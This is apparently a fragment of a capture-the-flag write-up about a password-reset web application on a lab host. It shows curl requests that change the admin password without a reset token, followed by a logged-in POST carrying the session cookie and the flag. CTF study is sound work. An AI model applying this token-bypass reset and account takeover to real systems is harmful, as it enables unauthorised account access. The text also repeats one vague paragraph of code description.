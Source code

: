 This code is likely part of a web application that provides password reset functionality for users. It checks a token, allows users to change their password if they meet certain criteria, and handles authentication routes. However, the security and functionality of this code depend on the broader context of the application and how it's used in conjunction with other components.

This code is likely part of a web application that provides password reset functionality for users. It checks a token, allows users to change their password if they meet certain criteria, and handles authentication routes.

Hmmmm, no dice:

```jsx
~ % curl -X GET -d "token=your_reset_token&password=your_password" http://rst.local.thetanuki.io/reset
no way!%
```

Bingo:

```jsx
~ % curl -X GET -d "password=1234567" http://rst.local.thetanuki.io/reset
password changed ;)%
```

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%2020.png)

```jsx
~ % curl -i -s -k -X $'POST' \
    -H $'Host: rst.local.thetanuki.io' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-CA,en-US;q=0.7,en;q=0.3' -H $'Accept-Encoding: gzip, deflate, br' -H $'Referer: http://rst.local.thetanuki.io/users/sign_in' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 215' -H $'Origin: http://rst.local.thetanuki.io' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'_pwreset_session=1bwh%2BfIbxw2Gr%2FAEntEV%2By%2ByI%2F6NXB7W1aL%2FvH3T1%2FfWpn4OBjeRthc63tThCJdqRC15jrAAg%2B3NjStGt7po1sxSn1iHurTJU8aoX%2B8WuuI%2Bc6BLyqk0wqfVMsge7uOQi1jMZBnhKdyPszB2tblzmedwsfR4wtHVL95qbaJwAZpeUpOWRLbCt6bJ0VxYnjGrKT5zF07IfYQRZylki%2BzDm2KM6JEiPovv1qjaDWpXeiuTzcSvgOtG%2B6f40Gjyky%2FZ4zkyeRz1KT7vxKdY6uge1ORjhpIgadDa--sa4C1r4Zo6jnvMVb--257ILCGg%2F3iwNz1mt4fudQ%3D%3D' \
    --data-binary $'authenticity_token=VZrdqzkXyeLfGC6cJ%2BvUdTgnVqmA28DwWW8SX0kItKxdRVHNjJWdTDFwPiPAgoCCDFrdtGHpmSAscUBljjDVpw%3D%3D&user%5Bemail%5D=admin%40thetanuki.io&user%5Bpassword%5D=1234567&user%5Bremember_me%5D=0&commit=Log+in' \
    $'http://rst.local.thetanuki.io/users/sign_in' \\\\

[tanuki](dbf839366dab89fe5a8cb215d4ad887e)
```
